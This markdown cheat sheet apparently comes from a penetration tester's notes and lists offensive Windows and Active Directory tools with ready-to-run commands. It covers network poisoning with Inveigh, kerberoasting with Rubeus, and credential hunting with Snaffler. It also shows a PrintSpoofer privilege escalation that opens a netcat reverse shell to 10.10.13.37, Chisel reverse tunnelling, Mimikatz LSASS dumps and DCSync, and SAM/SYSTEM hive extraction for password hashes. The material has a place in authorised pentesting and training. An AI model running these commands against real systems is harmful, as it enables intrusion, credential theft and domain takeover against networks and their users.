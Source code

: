 # Tools

### Inveigh.ps1
https://github.com/Kevin-Robertson/Inveigh/blob/master/Inveigh.ps1  
Similar to Responder, for powershell  
PS C:\> Import-Module .\Inveigh.ps1  
PS C:\> (Get-Command Invoke-Inveigh).Parameters  
PS C:\> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y  


### PowerView.ps1
https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1  
Replacements for various Windows net*  
PS C:\> import-module .\PowerView.ps1  
PS C:\> Get-DomainPolicy  
PS C:\> Get-DomainUser * -spn | select samaccountname  #to extract TGS tickets  


### nc.exe
https://github.com/int0x33/nc.exe/  
netcat Win binary, for port listening and reverse shell  


### printspoofer
To escalate with SeImpersonatePrivilege & SeAssignPrimaryTokenPrivilege  
PrintSpoofer.exe -c "c:\Temp\nc.exe 10.10.13.37 1337 -e cmd"  


### Rubeus
https://github.com/GhostPack/Rubeus  
Kerberoasting from windows machine  
PS C:\> .\Rubeus.exe kerberoast /stats  #to gather some stats  
PS C:\> .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap  #/nowrap to copy hash easily  
PS C:\> .\Rubeus.exe kerberoast /user:"username" /nowrap  #to test spesific user  
PS C:\> .\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap  #RC4 encryption when requesting a new service ticket  


### SharpHound.exe
https://github.com/BloodHoundAD/BloodHound/tree/master/Collectors  
To gather AD data for Bloodhound  


### Snaffler.exe
https://github.com/SnaffCon/Snaffler  
Credential Enumeration  
PS C:\> .\Snaffler.exe  -d <DomainName> -s -v data  
  

### Chisel
https://github.com/jpillora/chisel  
Pre-compiled Chisel for port-forwarding, both linux and windows  
sudo ./chisel server --reverse -v -p 1234 --socks5  
./chisel.exe client -v <YourIP>:1234 R:socks  
  

### Lazagne
https://github.com/AlessandroZ/LaZagne  
checks for passwords in common locations  

  
### Linpeas / Winpeas
Checks for possible priv esc for linux and windows  
  
  
### Mimikatz
https://github.com/ParrotSec/mimikatz  
  
mimikatz # privilege::debug  
mimikatz # sekurlsa::logonpasswords  

#use lsass.DMP and put results to lsass.txt  
#lsass.DMP can be acquired with right click lsass.exe and create dump method from task manager in details  
mimikatz # sekurlsa::minidump lsass.DMP  
mimikatz # log lsass.txt  
mimikatz # sekurlsa::logonPasswords  

#for dcsync abuse  
mimikatz # lsadump::dcsync  
mimikatz # lsadump::dcsync /user:<UserName>  #for spesific user only  


reg save HKLM\SAM sam.h  #to Dump SAM  
reg save HKLM\SYSTEM sys.h  #to Dump SYSTEM  
reg save HKLM\SECURITY sec.h  #to Dump SECURITY  
mimikatz # lsadump::sam sys.h sam.h sec.h  #get hashes from these files with mimikatz  

  
  
  
  
  
  
  
  
  










